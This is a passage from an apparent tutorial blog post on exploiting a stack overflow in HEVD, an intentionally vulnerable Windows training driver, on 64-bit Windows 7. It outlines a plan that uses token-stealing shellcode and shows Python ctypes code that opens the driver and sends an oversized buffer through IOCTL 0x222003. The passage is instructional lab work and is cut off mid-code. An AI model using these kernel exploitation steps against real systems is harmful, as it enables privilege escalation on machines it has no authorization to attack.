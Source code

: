 + [@ctf_blahcat's x64 Windows 8.1 HEVD Stack Overflow post](https://blahcat.github.io/2017/08/18/first-exploit-in-windows-kernel-hevd/),
+ [@abatchy17's x86 and x64 Token Stealing Shellcode post](https://www.abatchy.com/2018/01/kernel-exploitation-2), and
+ [@hasherezade's HEVD post](https://hshrzd.wordpress.com/2017/06/05/starting-with-windows-kernel-exploitation-part-2/).

There are probably some I even forgot. Huge thanks to the blog authors, no way I could've finished these first two exploits without your help/wisdom. 

## Goal
We just knocked out the Win7 x86 exploit last post, let's get the Win7 x86-64 exploit completed now. We won't be going over most of the things we already covered in the last post. 

We will use a lot of the same approaches from last post with a few changes. Those changes will be:
+ Let's use `VirtualAlloc` instead of `VirtualProtect` this time,
+ We will need to change our script in certain places to work with 64 bit registers,
+ A new token-stealing shellcode provided by @abatchy17,
+ New kernel execution restoration shellcode, and
+ A new `ctypes` function or two.

Let's get started.

## Getting a 64-bit Crash!
We will once again use the `0x222003` IOCTL to reach our desired function `TriggerStackOverflow`, and the `CreateFileA` API will look exactly the same. This will once again return a handle to our device driver. Let's use the handle to call `DeviceIoControl` and get a crash by sending a large buffer. 

To create the buffer, we will use the awesome `ctypes` function `create_string_buffer` which I learned from @sizzop's awesome blog posts on this subject. (In the last post we leaned heavily on @r0otki7, in this one, I leaned heavily on @sizzop.) 

We will start by sending a buffer of 3,000 `"A"`, just like last time and we should get a crash. Right now our code looks like this: 
```python
import ctypes, sys, struct
from ctypes import *
from subprocess import *
import time

kernel32 = windll.kernel32

hevd = kernel32.CreateFileA(
        "\\\\.\\HackSysExtremeVulnerableDriver", 
        0xC0000000, 
        0, 
        None, 
        0x3, 
        0, 
        None)
    
if (not hevd) or (hevd == -1):
    print("[!] Failed to retrieve handle to device-driver with error-code: " + str(GetLastError()))
    sys.exit(1)
else:
    print("[*] Successfully retrieved handle to device-driver: " + str(hevd))

buf = create_string_buffer("A"*3000)

result = kernel32.DeviceIoControl(
    hevd,
    0x222003,
    addressof(buf),
    (len(buf)-1),
```